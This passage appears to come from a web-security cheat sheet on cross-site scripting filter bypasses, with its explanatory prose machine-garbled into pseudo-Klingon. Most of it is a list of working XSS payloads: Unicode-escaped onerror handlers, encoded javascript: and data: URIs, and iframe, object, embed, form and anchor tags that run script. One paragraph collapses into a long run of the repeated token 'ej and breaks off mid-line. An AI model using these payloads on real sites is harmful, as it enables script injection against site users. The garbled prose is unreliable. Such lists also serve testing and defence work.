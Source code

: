 It is important to note that bypassing security measures using Unicode encoding may be considered unethical and illegal. Always ensure that you have proper authorization and legal permission before attempting any hacking techniques.
```javascript
//For some reason you can use unicode to encode "alert" but not "(1)"
<img src onerror=\u0061\u006C\u0065\u0072\u0074(1) />
<img src onerror=\u{61}\u{6C}\u{65}\u{72}\u{74}(1) />
```
### Special Protocols Within the attribute

**Dochvam** vItlhutlh **`javascript:`** be'**`data:`** **protokolmey** vItlhutlh **'ej **JS code** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'
```javascript
javascript:alert(1)
JavaSCript:alert(1)
javascript:%61%6c%65%72%74%28%31%29 //URL encode
javascript&colon;alert(1)
javascript&#x003A;alert(1)
javascript&#58;alert(1)
&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3aalert(1)
java        //Note the new line
script:alert(1)

data:text/html,<script>alert(1)</script>
DaTa:text/html,<script>alert(1)</script>
data:text/html;charset=iso-8859-7,%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
data:text/html;charset=UTF-8,<script>alert(1)</script>
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
data:text/html;charset=thing;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg
data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==
```
**ghItlhvamDaq vItlhutlh**

**QaH** `javascript:` **protokol** **DajatlhlaH** **tag** **vaj** **attribute `href`** **qab** **ghItlhvamDaq** **tag** **vaj** **attribute `src`** **qab** **vaj** **tag** **(ghobe' `<img`)** **qab** **ghItlhvamDaq** **protokol** **vItlhutlh**.
```markup
<a href="javascript:alert(1)">
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data=javascript:alert(3)>
<iframe src=javascript:alert(2)>
<embed src=javascript:alert(1)>

<object data="data:text/html,<script>alert(5)</script>">
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>
<iframe src="data:text/html,<script>alert(5)</script>"></iframe>

```